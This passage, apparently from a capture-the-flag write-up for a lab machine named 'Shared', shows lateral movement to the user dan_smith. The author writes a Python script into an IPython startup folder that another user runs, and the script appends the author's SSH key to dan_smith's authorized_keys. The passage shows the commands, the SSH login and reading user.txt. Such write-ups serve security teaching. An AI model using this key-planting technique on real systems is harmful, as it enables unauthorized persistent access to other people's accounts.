 To abuse this, I'll write a Python script that just makes sure the
`.ssh` directory for dan_smith exists, and then appends my key to the
the `authorized_keys` file:



    import os

    os.makedirs("/home/dan_smith/.ssh", exist_ok=True)
    f=open("/home/dan_smith/.ssh/authorized_keys", "a")
    f.write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing")
    f.close()



It seems that the folders / files in `/opt/scripts_review` get cleared
out fairly regularly, so I'll craft one line that generates the folders,
makes sure they are writable by other users, and then writes the script:



    james_mason@shared:/opt/scripts_review$ mkdir -p profile_default/startup; \
    > chmod -R 777 profile_default; \
    > echo 'import os; os.makedirs("/home/dan_smith/.ssh", exist_ok=True); f=open("/home/dan_smith/.ssh/authorized_keys", "a"); f.write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing"); f.close()' > profile_default/startup/0xdf.py



Once the script runs again, I can SSH into the box as dan_smith:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen dan_smith@shared.htb
    Linux shared 5.10.0-12-amd64 #1 SMP Debian 5.10.103-1 (2022-03-07) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue Jul 12 11:22:01 2022 from 10.10.14.6
    dan_smith@shared:~$ 



And grab `user.txt`:



    dan_smith@shared:~$ cat user.txt
    ffacd863************************



## Shell as root

### Enumeration

#### File System
